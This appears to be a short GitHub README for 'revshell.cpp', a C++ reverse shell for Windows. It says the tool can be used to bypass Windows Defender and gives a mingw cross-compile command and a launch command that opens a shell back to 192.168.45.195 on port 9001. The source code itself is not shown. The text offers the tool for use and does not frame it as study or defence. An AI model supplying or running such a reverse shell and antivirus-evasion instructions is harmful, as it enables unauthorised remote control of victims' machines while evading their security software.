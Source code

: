 ## revshell.cpp
Simple C++ reverse shell, can be used to bypass Windows Defender if we want to get a simple reverse shell from the target.
*Note: With revshell2 you can specify IP and PORT destination as arguments*

- Compile in linux with: `x86_64-w64-mingw32-g++ -o rev.exe rev.cpp -lws2_32 -static-libgcc -static-libstdc++`
- Execute: `rev.exe 192.168.45.195 9001`
